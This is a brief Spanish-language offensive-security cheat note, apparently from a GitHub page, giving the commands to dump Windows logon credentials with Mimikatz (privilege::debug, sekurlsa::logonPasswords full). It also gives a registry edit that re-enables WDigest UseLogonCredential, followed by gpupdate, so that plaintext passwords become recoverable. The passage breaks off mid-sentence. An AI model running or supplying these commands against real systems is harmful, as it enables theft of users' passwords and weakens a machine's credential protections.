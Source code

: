 Dump credentials :
mimikatz.exe
privilege::debug
sekurlsa::logonPasswords full


Hay veces en que el wdigest esté protegido y no permitirá dumpear los passwords en texto plano. Para desprotegerlo (si tenemos permisos de admin):
cmd:
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1

gpupdate /force

intentamos nuevamente y tendrían que aparecer 
